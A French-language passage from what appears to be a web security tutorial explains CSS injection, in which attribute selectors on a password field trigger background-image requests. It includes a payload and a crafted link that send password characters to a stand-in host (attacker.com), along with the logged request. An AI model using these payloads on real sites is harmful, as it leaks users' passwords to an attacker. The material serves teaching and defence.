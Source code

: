 {% code overflow="wrap" lineNumbers="true" %}
```html
<style>
  input[name=password][value^=valeur] {
    background-image:url(https://banque-images.com/background.png);
  }
</style>
```
{% endcode %}

Le style va s'appliquer pour les éléments HTML `<input>`, dont l'attribut `name` est égal à "password" et dont la `value` commence par (le caractère `^` indique le début de chaîne) "valeur". Si un tel élément est trouvé, alors le navigateur appliquera le style `background-image` en récupérant l'image disponible à l'URL spécifiée.

L'attaquant va ainsi modifier le sélecteur comme ceci :&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```html
<style>
  input[name=password][value^=a] {
    background-image:url(https://attacker.com/?leak=a);
  }
</style>
```
{% endcode %}

Et amener sa victime à suivre le lien malicieux exploitant l'injection :&#x20;

{% code overflow="wrap" %}
```
https://vulnerable.com/css-injection-element-password.php?color=black;}input[name=password][value^=a]{background-image:url(https://attacker.com/?leak=a);}
```
{% endcode %}

Lorsque le navigateur de la victime chargera la page, la condition sera remplie et une requête sera effectuée vers le serveur de l'attaquant :&#x20;

{% code overflow="wrap" %}
```http
GET /?leak=a HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Referer: https://vulnerable.com
Connection: close
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (22) (2).png" alt=""><figcaption></figcaption></figure>
